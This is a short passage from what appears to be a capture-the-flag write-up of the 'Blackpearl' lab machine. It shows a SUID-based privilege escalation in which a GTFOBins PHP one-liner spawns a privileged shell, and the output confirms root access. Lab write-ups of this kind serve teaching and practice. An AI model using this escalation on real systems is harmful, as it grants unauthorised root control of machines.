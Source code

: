 - Click on "SUID"

![php SUID](../assets/TCM-Sec/Blackpearl/php%20suid.png)

## Privilege Escalation (PHP)

- Let' try that with the path to "php7.3" reported by linPEAS and the code from GTFOBins

```console
www-data@blackpearl:~/blackpearl.tcm/navigate$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
</usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
whoami
root
``` 

> WE GOT ROOT
